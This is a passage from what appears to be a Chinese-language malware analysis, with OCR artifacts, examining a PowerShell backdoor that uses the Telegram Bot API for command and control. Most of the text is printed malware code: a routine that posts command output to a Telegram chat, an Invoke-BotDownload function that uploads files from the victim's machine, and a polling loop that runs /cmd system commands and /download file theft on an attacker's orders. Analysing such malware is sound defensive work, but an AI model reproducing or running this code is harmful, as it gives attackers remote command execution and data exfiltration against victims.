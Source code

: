 ```shell
            $data = "chat_id={0}&text={1}" -f $from, $res[$begin..$send]
            $URL = "{0}/sendMessage?{1}" -f $URL, $data
            Invoke - WebRequest -Uri $URL > $null
        }
    } else {
        $data = "chat_id={0}&text={1}" -f $from, $res
        $URL = "{0}/sendMessage?{1}" -f $URL, $data
        Invoke - WebRequest -Uri $URL > $null
    }
}
```

Invoke - BotDownload 函数主要用于将受害者系统中的文件上传到由威胁行为者控制的 Telegram 聊天窗口，实现数据窃取。它根据威胁行为者的请求，从指定路径读取文件，准备必要的元数据和内容头，并将文件作为多部分表单数据 POST 请求发送到 Telegram API。因此，这个函数旨在将受害者计算机上的数据窃取到威胁行为者的 Telegram 聊天窗口中。

```shell
function Invoke - BotDownload {
    param (
        $FilePath
    )
    Add - type -AssemblyName System.Net.Http
    $FieldName = 'document'
    $httpclientHandler = New - Object System.Net.Http.HttpclientHandler
    $httpclient = New - Object System.Net.Http.Httpclient($httpclientHandler)
    $Filestream = [System.IO.FileStream]::new($FilePath, [System.IO.FileMode]::Open)
    $FileHeader = [System.Net.Http.Headers.ContentDispositionHeaderValue]::new("form - data")
    $FileHeader.Name = $FieldName
    $FileHeader.FileName = (Split - Path $FilePath -leaf)
    $FileContent = [System.Net.Http.StreamContent]::new($Filestream)
    $FileContent.Headers.ContentDisposition = $FileHeader
    $FileContent.Headers.ContentType = [System.Web.MimeMapping]::GetMimeMapping($FilePath)
    $multipartContent = [System.Net.Http.MultipartFormDataContent]::new()
    $multipartContent.Add($FileContent)
    $httpClient.PostAsync("$URL/sendDocument?chat_id={0}" -f $from, $multipartContent) > $null
}
```

脚本的其余部分构成了机器人的核心操作逻辑，它在一个持续循环中运行，以监控和处理来自威胁行为者的新消息。它使用 getUpdates API 端点获取消息，并根据消息内容采取行动。像 /sleep 这样的命令可以调整机器人的休眠间隔，/cmd 命令允许它使用 Invoke - BotCmd 函数执行系统命令，/download 命令则通过 Invoke - BotDownload 函数触发从受害者计算机上传文件的操作。


```shell
while ($true) {
    try {
        $message = Invoke - RestMethod -Method Get -Uri ($URL + '/getUpdates?offset=' + ($lastID + 1)) -ErrorAction Stop
        if ($message.result) {
            foreach ($update in $message.result) {
                $updateid = $update.update_id
                $from = $update.message.from.id
                $command = $update.message.text
                if ($command.Substring(0, 6) -eq "/sleep") {
                    $sleepTime = [int]$command.Substring(7)
                } elseif ($command.Substring(0, 4) -eq "/cmd") {
                    Invoke - BotCmd -command $command.Substring(5)
                } elseif ($command.Substring(0, 9) -eq "/download") {
                    Invoke - BotDownload -FilePath $command.Substring(10)
                } else {
                    # 处理其他命令或消息
                }
                $lastID = $updateid
            }
        }
        Start - Sleep -Seconds (Get - Random -Minimum 1 -Maximum 8)
    } catch {
```